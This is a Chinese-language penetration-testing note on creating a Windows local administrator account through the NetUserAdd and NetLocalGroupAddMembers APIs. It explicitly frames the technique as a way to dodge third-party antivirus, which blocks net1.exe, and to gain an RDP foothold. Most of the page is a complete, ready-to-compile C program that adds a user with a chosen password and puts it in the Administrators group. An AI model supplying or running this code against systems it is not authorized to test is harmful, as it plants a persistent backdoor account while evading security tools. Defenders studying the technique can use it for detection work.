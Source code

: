 # 通过API添加Windows用户

## 简介

在渗透测试过程中，如果需要白利用远程桌面等服务，往往我们还需要一个知道密码的windows账户，而这个账户通常直接由net1.exe直接添加\(当然也可以直接pass the hash登录rdp，略略略\)，而调用这个可执行文件往往会被第三方杀软直接拦截（略略略，defender是微软自己的，不拦合法功能），这样我们就需要想另外的办法添加用户。

## 利用过程

1. 查文档\(狗头\)
2. 调用NetUserAdd添加本地用户
3. 调用NetLocalGroupAddMembers将用户添加到组

## 代码

微软文档解释了这个如何通过这个函数来添加操作系统账户，第一个参数servername指定了需要添加用户的主机名，传入NULL则为本地添加，第二个参数决定了第三个参数传入的结构体，通过这个函数我们可以在windows操作系统上添加账户。

```text
NET_API_STATUS NET_API_FUNCTION NetUserAdd(
  LPCWSTR servername,
  DWORD   level,
  LPBYTE  buf,
  LPDWORD parm_err
);
```

<table>
  <thead>
    <tr>
      <th style="text-align:left">Value</th>
      <th style="text-align:left">Meaning</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left"><b>1</b>
      </td>
      <td style="text-align:left">
        <p>Specifies information about the user account. The buf parameter points
          to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_1">USER_INFO_1</a> structure.</p>
        <p>When you specify this level, the call initializes certain attributes to
          their default values. For more information, see the following Remarks section.</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left"><b>2</b>
      </td>
      <td style="text-align:left">Specifies level one information and additional attributes about the user
        account. The buf parameter points to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_2">USER_INFO_2</a> structure.</td>
    </tr>
    <tr>
      <td style="text-align:left"><b>3</b>
      </td>
      <td style="text-align:left">Specifies level two information and additional attributes about the user
        account. This level is valid only on servers. The buf parameter points
        to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_3">USER_INFO_3</a> structure.
        Note that it is recommended that you use <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_4">USER_INFO_4</a> instead.</td>
    </tr>
    <tr>
      <td style="text-align:left"><b>4</b>
      </td>
      <td style="text-align:left">
        <p>Specifies level two information and additional attributes about the user
          account. This level is valid only on servers. The buf parameter points
          to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_4">USER_INFO_4</a> structure.</p>
        <p><b>Windows 2000:  </b>This level is not supported.</p>
      </td>
    </tr>
  </tbody>
</table>

同理将该账户加入administrators组也是使用类似的函数，这里就不贴参数了。

```text
NET_API_STATUS NET_API_FUNCTION NetLocalGroupAddMembers(
  LPCWSTR servername,
  LPCWSTR groupname,
  DWORD   level,
  LPBYTE  buf,
  DWORD   totalentries
);
```

### 完整代码

```text
#ifndef UNICODE
#define UNICODE
#endif
#pragma comment(lib, "netapi32.lib")

#include <stdio.h>
#include <windows.h> 
#include <lm.h>

int wmain(int argc, wchar_t* argv[])
{
    USER_INFO_1 ui;
    DWORD dwLevel = 1;
    DWORD dwError = 0;
    NET_API_STATUS nStatus;

    if (argc != 3)
    {
        
        fwprintf(stderr, L"Usage:./this.exe <username> <password>\n", argv[0]);
        exit(1);
    }

    ui.usri1_name = argv[1];
    ui.usri1_password = argv[2];
    ui.usri1_priv = USER_PRIV_USER;
    ui.usri1_home_dir = NULL;
    ui.usri1_comment = NULL;
    ui.usri1_flags = UF_SCRIPT;
    ui.usri1_script_path = NULL;

    nStatus = NetUserAdd(NULL,
        dwLevel,
        (LPBYTE)&ui,
        &dwError);

    if (nStatus == NERR_Success)
        fwprintf(stderr, L"User %s has been successfully added\n",argv[1]);

    else
        fprintf(stderr, "A system error has occurred: %d\n", nStatus);

    LOCALGROUP_MEMBERS_INFO_3 account;
    account.lgrmi3_domainandname = argv[1];

    NET_API_STATUS Status = NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1);

    if (Status == NERR_Success || Status == ERROR_MEMBER_IN_ALIAS){
        printf("Administrators added Successfully!");
    }
    else {
        printf("Administrators added Failed!");
    }
    return 0;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netlocalgroupaddmembers" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netuseradd" %}



